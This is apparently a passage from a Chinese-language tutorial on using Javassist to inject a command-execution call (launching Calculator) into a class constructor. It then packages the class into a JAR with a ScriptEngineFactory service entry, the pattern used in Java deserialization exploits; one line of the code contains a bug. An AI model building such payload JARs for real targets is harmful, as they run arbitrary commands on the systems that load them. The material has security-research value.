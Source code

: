 #### 在构造方法中添加代码

```java
// 获取构造方法
CtConstructor[] constructors = cc.getDeclaredConstructors();
if (constructors.length > 0) {
    CtConstructor constructor = constructors[0];
    // 在构造函数中插入代码
    String injectedCode = "{ try {\n" +
            "            Runtime.getRuntime().exec(\"open -a Calculator\");\n" +
            "        } catch (IOException e) {\n" +
            "            e.printStackTrace();\n" +
            "        } }";
    constructor.insertBeforeBody(injectedCode);
}
```

### Jar 包

#### 创建 MF 文件

```java
// 创建MANIFEST.MF文件
Manifest manifest = new Manifest();
Attributes mainAttributes = manifest.getMainAttributes();
mainAttributes.put(Attributes.Name.MANIFEST_VERSION, "1.0");
mainAttributes.put(Attributes.Name.MAIN_CLASS, packageName + "." + className);
// 获取当前JDK版本
String jdkVersion = System.getProperty("java.version");
mainAttributes.putValue("Build-Jdk", jdkVersion);
```

#### 生成 jar 包

```java
// 生成JAR格式的byte[]
byte[] jarBytes = new byte[0];
try (ByteArrayOutputStream baos = new ByteArrayOutputStream(); JarOutputStream jos = new JarOutputStream(baos, manifest)) {
    // 创建JAR条目
    JarEntry entry = new JarEntry(newPackageName.replace('.', '/') + "/" + className + ".class");
    jos.putNextEntry(entry);
    // 写入类的字节码到JAR中
    jos.write(bytecode);
    jos.closeEntry();

    // 创建JAR条目 - 添加服务文件
    String serviceFileName = "META-INF/services/javax.script.ScriptEngineFactory"; // 服务文件路径
    String serviceFileContent = "com.example.AwesomeScriptEngineFactory"; // 服务文件内容
    JarEntry serviceEntry = new JarEntry("serviceFileName");
    jos.putNextEntry(serviceEntry);
    jos.write(serviceFileContent.getBytes());
    jos.closeEntry();

    jos.finish(); // 结束写入
    jarBytes = baos.toByteArray(); // 获取生成的JAR字节数组

    // 将 byte[] 写入文件
    String filePath = "output.jar";
    FileOutputStream fos = new FileOutputStream(filePath);
    fos.write(jarBytes);
    System.out.println("数据已写入文件: " + filePath);
} catch (Exception e) {
    e.printStackTrace();
}
```